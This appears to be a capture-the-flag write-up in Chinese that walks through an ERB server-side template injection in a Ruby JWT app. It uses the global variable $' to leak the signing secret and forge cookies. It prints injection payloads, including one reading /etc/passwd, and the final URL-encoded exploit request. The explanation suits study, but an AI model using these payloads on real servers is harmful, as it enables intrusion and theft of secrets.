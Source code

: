 确认思路，但是想要伪造jwt需要密钥SECRET

robots.txt 下发现路径，访问得到源码

重点看/work

```php
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end
 //可以看出，cookie是需要ENV["SECRET"]作为签名得到的。因此我们如果能得到每次work后的ENV["SECRET"]，就可以伪造cookie了！这段代码的后半部分说明了，在ERB模版渲染以前有一个正则匹配。如果SECRET参数存在的话，就对其进行匹配，并用传入的值与ENV["SECRET"]进行匹配，匹配成功就会输出FLAG

  if params[:do] == "#{params[:name][0,7]} is working" then
    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

当 `params[:do] == "#{params[:name][0,7]} is working"` ,secret会在 auth显示

所有我们要做的就是另`params[:do] == "#{params[:name][0,7]} is working"`



这里有一串代码  `ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result`   为ERb模板，还直接把可控参数 name 拼进去了，那么这里我们就可以传入一些构造过的参数，来达到我们的目的了。比如 name=<%=1%>，就会得 1。

**erb得模板注入形式如下**

```
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

**但是题目只给了我们七个可控字符，除去这五个必要得字符，我们只能剩下2个字符可控**

**这里用到ruby全局变量**

 **ruby的全局变量以`$`开头，例如: `$x`,`$y` 。全局变量可以在程序的任何地方加以引用。全局变量无需变量声明。引用尚未初始化的全局变量时，其值为nil。并且ruby有内置的全局变量表，在[这里](https://blog.csdn.net/zdq0394123/article/details/8443694)。**

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu21.jpg)

**这里既然有匹配，那说明我们就可以用全局变量读出来了，也就是可以用上图的符号来读取匹配前的内容（即`ENV["SECRET"]`）**

**因此我们可以构造，再进行url编码后传入。**

> ?name=<%=$'%>&do=<%=$'%> is working&SECRET=
>
> name=%3C%25=$'%25%3E&do=%3C%25=$'%25%3E%20is%20working&SECRET=
